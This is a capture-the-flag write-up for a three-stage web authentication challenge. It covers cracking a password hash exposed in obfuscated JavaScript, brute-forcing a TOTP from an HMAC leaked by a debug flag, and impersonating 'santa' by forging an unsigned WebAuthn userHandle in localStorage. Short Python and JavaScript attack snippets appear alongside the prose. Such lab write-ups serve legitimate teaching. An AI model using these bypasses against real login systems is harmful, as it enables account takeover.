




## Multifactorial  


### Challenge Description

```
Modern authentication relies on more than just a password.

Something you know, something you have, and something you are. Together, they're meant to provide layered security that can withstand compromise of any single factor.

Santa's workshop follows this model to the letter. A password gates access, a time-based code confirms possession, and a passkey verifies identity using modern cryptography. Each step appears independent. Each check appears correct.

Analyze the authentication flow end-to-end. If multifactor authentication is only as strong as its weakest link, can you find the point where identity becomes a matter of belief rather than proof?
```

### Writeup  

This challenge consists of 3 authentication stages.  

In the 1st stage, we are prompted for a password.  


In the website source, we can find some obfuscated JavaScript. 

We don't have to concern ourselves with what it does, but for clarity's sake, it will `alert()` the password hash if `Math.random()` returns `0` (you can achieve this by entering `Math.random=()=>0` in the browser console). However, this is redundant as the password hash is already hardcoded in the obfuscated code.  

```js
function _0xce3b() {
    var _0x148159 = [
        '4148163vSdrFC',
        '5725159VzzaPT',
        '2397752ODowZJ',
        '20DlKRcS',
        '24TpyFfD',
        '16748QiSgfp',
        'You\'re really lucky! Here\'s my hash as a reward. bf33632dd9668787878890cb4fbb54261b6b7571',
        '366wwxTHU',
        '54915cJlHyP',
        'random',
        '240864NVXXPi',
        '926331SmwYQm',
        '82GgSHPB'
    ];
    ...
```

We can retrieve the password by cracking the hash using [crackstation](https://crackstation.net/), giving us `northpole123`.    


In the next stage, we are required to submit the correct TOTP.  



The website source includes a hardcoded key, as well as an undefined `queryOracle()` function. `queryOracle()` is useless (chall author forgot to remove), but the key will come in handy later.  

```js
const ORACLE_KEY = "17_w0Uld_83_V3Ry_fUNnY_1f_y0U_7H0u9H7_7H15_W45_4_Fl49";
...
document.getElementById("oracleBtn").addEventListener("click", queryOracle);
```

The website verifies the TOTP by making an API call, with the `debug` parameter set to `0` by default.  

```js
const resp = await fetch("/api/something-you-have-verify?debug=0", {
    method: "POST",
    headers: { "Content-Type": "application/json" },
    body: JSON.stringify({ code }),
});
```

Setting `debug` to `1` and sending a random TOTP reveals more key information. This time, the server returns a HMAC string.  



I opened a ticket and got a hint regarding the HMAC.  


Since we know how the formula and the secret key used to generate the HMAC, we can bruteforce the TOTP, which should be valid for around 30 seconds.  

```python
import hashlib, hmac

def recover_totp(target_hmac, secret):
    for i in range(1000000):
        totp = f"{i:06d}".encode()

        digest = hmac.new(secret.encode(), totp, hashlib.sha256).hexdigest()

        if digest == target_hmac:
            return totp.decode()

    return None
```

In the last stage, we are required to register and login using a passkey.  


We can first register a passkey under the username `test`, and logging in will prompt us to visit `/admin`.  


Although we are denied access, the `/admin` page clues us that we need a passkey registered under `santa`.  


However, when we try to register a passkey under `santa`, we get an error saying it's a reserved name.  


In the verification page, there is a comment hinting that `userHandle` isn't signed, which means we just need to figure out how the user handles are signed to get santa's `userHandle`.  

```js
const userHandle = localStorage.getItem("np_userHandle");
...
const payload = {
    id: assertion.id,
    rawId: bufToB64url(assertion.rawId),
    type: assertion.type,
    // IMPORTANT: this field is NOT signed; server should not trust it (but it will)
    userHandle,
    response: {
    clientDataJSON: bufToB64url(assertion.response.clientDataJSON),
    authenticatorData: bufToB64url(assertion.response.authenticatorData),
    signature: bufToB64url(assertion.response.signature),
    },
};
...
const verResp = await fetch("/api/webauthn/auth/verify", {
    method: "POST",
    headers: { "Content-Type": "application/json" },
    body: JSON.stringify(payload),
});
```

Analysing the credentials generated by the server, we can see that the user handle is just the first `16` bytes of the SHA256 hash of the username, URL-safe Base64 encoded.  


We can implement the encryption logic to get santa's user handle.  

```python
import base64
import hashlib

def get_handle(name):
    name_bytes = name.encode('utf-8')
    hash_bytes = hashlib.sha256(name_bytes).digest()[:16]
    
    b64 = base64.urlsafe_b64encode(hash_bytes).decode('ascii')
    return b64.rstrip("=")

get_handle("santa") # ttyQg9o3L-0hGazhGum6hw
```

Since the user handle is stored in `localStorage` in `/something-you-are`, we just have to modify its value before authenticating with our passkey.  

```js
localStorage.np_userHandle = "ttyQg9o3L-0hGazhGum6hw"
```

We are finally able to get admin login.  



Accessing `/admin` will then reveal the flag.  



Flag: `csd{1_L34rn3D_7h15_Fr0m_70m_5C077_84CK_1n_2020}`